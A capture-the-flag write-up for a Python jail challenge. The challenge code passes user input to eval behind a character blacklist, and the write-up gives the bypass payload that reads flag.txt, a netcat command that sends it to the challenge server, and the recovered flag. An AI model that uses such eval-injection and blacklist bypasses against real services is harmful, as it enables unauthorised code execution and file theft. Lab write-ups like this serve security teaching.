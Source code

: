 # Unbreakble

Think you can escape my grasp? Challenge accepted! I dare you to try and break free, but beware, it won't be easy. I'm ready for whatever tricks you have up your sleeve!

## Writeup

We can send some python code and it will be exeuted:

```python
blacklist = [ ';', '"', 'os', '_', '\\', '/', '`',
              ' ', '-', '!', '[', ']', '*', 'import',
              'eval', 'banner', 'echo', 'cat', '%', 
              '&', '>', '<', '+', '1', '2', '3', '4',
              '5', '6', '7', '8', '9', '0', 'b', 's', 
              'lower', 'upper', 'system', '}', '{' ]

while True:
  ans = input('Break me, shake me!\n\n$ ').strip()
  
  if any(char in ans for char in blacklist):
    print(f'\n{banner1}\nNaughty naughty..\n')
  else:
    try:
      eval(ans + '()')
      print('WHAT WAS THAT?!\n')
    except:
      print(f"\n{banner2}\nI'm UNBREAKABLE!\n") 
```

Just find some command that are not blacklisted:

```python
print(open('flag.txt').read())#
```

Run it on the server:

```bash
echo "print(open('flag.txt').read())#" | nc 94.237.57.155 44218
```

This is the flag:

```
HTB{3v4l_0r_3vuln??}
```